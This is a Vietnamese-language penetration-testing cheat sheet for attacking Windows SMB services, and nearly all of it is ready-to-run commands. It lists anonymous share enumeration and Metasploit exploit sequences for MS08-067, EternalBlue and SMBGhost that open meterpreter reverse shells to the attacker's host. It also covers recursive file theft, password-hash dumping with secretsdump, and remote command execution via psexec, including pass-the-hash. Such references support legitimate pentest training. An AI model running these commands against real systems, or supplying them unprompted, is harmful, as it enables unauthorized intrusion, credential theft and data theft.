 # SMB (Port  139, 445)

## Connect

### Kết nối bằng smbclient

Liệt kê tất cả các chia sẻ (shares) có sẵn trên máy chủ SMB:

```
smbclient -L //<ip>
```

***

## Enumeration

### smbclient

Liệt kê các chia sẻ SMB với tài khoản ẩn danh hoặc Guest:

```
smbclient -N -L //<ip>/
```

### enum4linux

Liệt kê thông tin chi tiết:

```
enum4linux -u '<user>' -p '<password>' -a <ip>
```

### IPC$

Liệt kê người dùng nếu chia sẻ IPC$ cho phép truy cập ẩn danh:

```
impacket-lookupsid anonymous@<ip>
```

***

## Attack Vectors

### Đăng nhập ẩn danh

Kết nối ẩn danh hoặc Guest để thu thập thông tin hệ thống:

```
smbclient -L //<ip>/ -U anonymous/Guest
```

Sau khi kết nối, chạy các lệnh:

```bash
srvinfo
enumdomusers
getdompwinfo
```

### Khai thác MS08-067 (Netapi)

Khai thác lỗ hổng MS08-067 để thực thi mã từ xa qua SMB:

```
msf> use exploit/windows/smb/ms08_067_netapi
   > set RHOSTS <ip>
   > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   > set LHOST <your_ip>
   > exploit
```

### Khai thác MS17-010 (EternalBlue)

Khai thác lỗ hổng EternalBlue trên SMBv1 để thực thi mã từ xa:

```
msf> use exploit/windows/smb/ms17_010_eternalblue
   > set RHOSTS <ip>
   > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   > set LHOST <your_ip>
   > exploit
```

### Khai thác SMBGhost (CVE-2020-0796)

Khai thác lỗ hổng SMBv3 để thực thi mã từ xa:

```
msf> use exploit/windows/smb/cve_2020_0796_smbghost
   > set RHOSTS <ip>
   > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   > set LHOST <your_ip>
   > exploit
```

***

## Post-Exploitation

### Kết nối tới SMB

Kết nối tới chia sẻ SMB cụ thể với thông tin đăng nhập:

```
smbclient \\\\<ip>\\<share_name> -U <user>
```

{% hint style="info" %}
\--option='client min protocol=NT1' với phiên củ cũ
{% endhint %}

### Các lệnh SMBclient thông dụng

<table><thead><tr><th width="172">Lệnh smbclient</th><th width="421">Giải thích</th></tr></thead><tbody><tr><td>ls</td><td>Liệt kê danh sách file và thư mục</td></tr><tr><td>cd &#x3C;folder></td><td>Di chuyển vào thư mục con</td></tr><tr><td>get &#x3C;file></td><td>Tải (download) một file</td></tr><tr><td>mget &#x3C;pattern></td><td>Tải nhiều file cùng lúc từ share SMB về máy local</td></tr><tr><td>put &#x3C;file></td><td>Upload một file </td></tr><tr><td>mput &#x3C;pattern></td><td>Upload nhiều file cùng lúc</td></tr><tr><td>lcd &#x3C;local_folder></td><td>Đổi thư mục làm việc hiện tại trên máy local</td></tr><tr><td>pwd</td><td>Hiển thị đường dẫn thư mục hiện tại</td></tr><tr><td>prompt</td><td>Bật/tắt chế độ hỏi xác nhận khi dùng lệnh mget/mput</td></tr><tr><td>help</td><td>Hiển thị danh sách các lệnh có thể sử dụng</td></tr><tr><td>exit/quit</td><td>Thoát khỏi phiên làm việc</td></tr></tbody></table>

### Dumping Hashes

Trích xuất hàm băm mật khẩu từ hệ thống:

```
impacket-secretsdump <domain>/<user>:<password>@<ip>
```

### Tải xuống nhiều tệp

Tải xuống đệ quy các tệp từ chia sẻ SMB với smbclient:

```
mask ""
RECURSE ON
PROMPT OFF
mget *
```

Tương tự tải tất cả các file với smbmap:

```
smbmap -R <share_name> -H <ip> -A <file> -q
smbmap -u <user> -p <pass> -H <ip> -s <share> -R -A '.*'
```

### Thực thi lệnh từ xa

Thực thi lệnh từ xa trên máy chủ SMB bằng psexec với thông tin đăng nhập:

```
impacket-psexec <domain>/<user>:<password>@<ip>
```

Ta cũng có thể sử dụng NTLM hash để xác thực:

{% code overflow="wrap" %}

```
impacket-psexec -hashes <hash> <domain>/<user>@<ip>
```

{% endcode %}